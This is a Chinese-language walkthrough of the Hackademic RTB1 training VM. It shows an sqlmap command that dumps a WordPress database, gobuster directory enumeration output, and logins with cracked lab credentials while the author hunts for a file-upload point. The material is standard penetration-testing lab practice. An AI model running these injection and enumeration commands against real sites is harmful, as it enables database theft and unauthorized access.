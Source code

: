 爆表的时候，引号会被 **///** 过滤，有点麻烦，直接sqlmap梭哈了

`└─$ sudo sqlmap http://192.168.218.190/Hackademic_RTB1/?cat=1 --batch -D wordpress --tables --dump -o`

拿到 wp_user 和 password 再扫描一下后台目录
```
┌──(kali㉿kali)-[~/…/hackadmic_rTB1/sqlmap/Key/192.168.218.190]
└─$ gobuster dir -u http://192.168.218.190/Hackademic_RTB1/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.218.190/Hackademic_RTB1/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 339] [--> http://192.168.218.190/Hackademic_RTB1/wp-content/]
/wp-admin             (Status: 301) [Size: 337] [--> http://192.168.218.190/Hackademic_RTB1/wp-admin/]
/wp-includes          (Status: 301) [Size: 340] [--> http://192.168.218.190/Hackademic_RTB1/wp-includes/]
/xmlrpc.php           (Status: 200) [Size: 42]
/index.php            (Status: 500) [Size: 1881]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp.php               (Status: 200) [Size: 1694]
/wp-feed.php          (Status: 200) [Size: 1607]
/wp-images            (Status: 301) [Size: 338] [--> http://192.168.218.190/Hackademic_RTB1/wp-images/]
/wp-login.php         (Status: 200) [Size: 1474]
/readme.html          (Status: 200) [Size: 8783]
/license.txt          (Status: 200) [Size: 15127]
/wp-register.php      (Status: 200) [Size: 1437]
/wp-config.php        (Status: 200) [Size: 0]
/index.php            (Status: 500) [Size: 1881]
Progress: 224656 / 224660 (100.00%)
===============================================================
Finished
===============================================================

```
找一个带登录功能的页面wp-login.php，搜索cms指纹信息，看看有什么别的漏洞，但是都是sql输入漏洞已经利用过了，但是不小心搜到靶场复现了，有个文件上传字样，那么就开始找上传的位置了
看之前使用sqlmap跑出来的wp_users表中的用户登录试一下,感觉admin密码权限高一点，试第一个NickJames:admin成功登录进来，只有一下简单的功能，也没有尝试出来什么利用点，再试试其他的用户。第二个密码没有跑出来试第三个 GeorgeMiller:q1w2e3
```
Database: wordpress                                                                                                                                                                                                                                                          
Table: wp_users
[6 entries]
+----+---------+----------+----------+----------+----------+----------+---------------------------------------------+-------------------------+------------+--------------+-------------+-------------+-------------+--------------+---------------+---------------+---------------+----------------+---------------------+------------------+---------------------+
```